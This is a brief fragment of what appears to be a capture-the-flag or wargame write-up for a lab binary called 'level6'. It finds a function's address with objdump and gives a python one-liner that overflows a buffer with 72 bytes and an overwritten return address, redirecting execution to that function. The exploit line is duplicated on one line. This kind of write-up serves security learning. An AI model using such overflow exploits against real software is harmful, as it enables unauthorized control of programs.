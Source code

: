 ```shell
objdump -t ./level6 | grep "n"
...
08048454 g     F .text	00000014              n
...

./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```

We redirect execution flow to `n` function.
